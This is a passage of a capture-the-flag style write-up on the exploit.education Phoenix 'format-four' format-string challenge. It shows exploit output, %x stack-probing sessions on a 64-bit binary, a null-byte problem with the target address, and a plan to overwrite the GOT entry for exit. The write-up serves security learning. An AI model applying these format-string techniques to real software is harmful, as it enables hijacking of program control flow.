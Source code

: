 
```shell
Welcome to phoenix/format-four, brought to you by https://exploit.education
����0 0 0 f7f81cf7 f7ffb000 ffffd718 804857d ffffc710 ffffc710 fff 0 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Well done, you're redirected code execution!
Well done, you're redirected code execution!
```


## Challenge faced while exploiting 64-bit binary

As mentioned above while going through memory address of `congratulations` function in the stack of 64-bit binary should be `0x400644` and it contains unreasonable characters 😥 - `\x00` null character which is interpreted by the `strncpy` function and completely terminates the argument while copying to the buffer.

```shell
user@phoenix-amd64:/opt/phoenix/amd64$ ./format-four
Welcome to phoenix/format-four, brought to you by https://exploit.education
AAA%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x
AAAf7ffdc0c.f7ffb300.f7dc2617.0.0.0.ffffd6b0.ffffe6b0.4006b5.ffffe708.0.25414141.2e78252e.78252e78.252e7825.2e78252e
user@phoenix-amd64:/opt/phoenix/amd64$ ./format-four
Welcome to phoenix/format-four, brought to you by https://exploit.education
AAA%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x
AAAf7ffdc0c.f7ffb300.f7dc2617.0.0.0.ffffd6b0.ffffe6b0.4006b5.ffffe708.0.25414141.2e78252e.78252e78.252e7825.2e78252e.78252e78.252e7825.2e78252e.78252e78.0.0
user@phoenix-amd64:/opt/phoenix/amd64$ ./format-four
Welcome to phoenix/format-four, brought to you by https://exploit.education
AAA%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x
AAAf7ffdc0c.f7ffb300.f7dc2617.0.0.0.ffffd6b0.ffffe6b0.4006b5.ffffe708.0
user@phoenix-amd64:/opt/phoenix/amd64$ ./format-four
Welcome to phoenix/format-four, brought to you by https://exploit.education
AAA%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x
AAAf7ffdc0c.f7ffb300.f7dc2617.0.0.0.ffffd6b0.ffffe6b0.4006b5.ffffe708.0.25414141
user@phoenix-amd64:/opt/phoenix/amd64$ nm format-four | grep congratulations
0000000000400644 T congratulations
```

However, there might be better strategy to overcome this issue by altering environment variables that may push the address or placing the address to the end of the string in payload.

## Exploit

Now, our strategy should be,

1. Input `format string` as above python file execution results pipe-ing to `format-four` binary 
2. Now, `exit` memory address from GOT (Global Offset Table) is overwritten by `congratulations` address.
